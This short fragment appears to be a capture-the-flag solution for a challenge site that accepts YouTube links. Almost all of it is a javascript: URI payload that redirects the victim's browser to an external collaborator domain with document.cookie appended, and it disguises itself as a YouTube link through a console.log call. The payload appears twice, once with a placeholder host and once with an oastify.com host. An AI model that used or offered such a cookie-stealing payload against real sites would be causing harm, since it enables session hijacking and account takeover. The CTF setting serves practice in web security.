 solution `javascript:document.location="url?c="+document.cookie;console.log("https://www.youtube.com/watch?v=")`

whilst the scientist is away, he created this makeshift site for you to be able to send him youtube videos.


javascript:document.location="http://o5uvpbvmbgyvvkaf1jb29z5x8oef26qv.oastify.com?a="+document.cookie;console.log("https://www.youtube.com/watch?v=")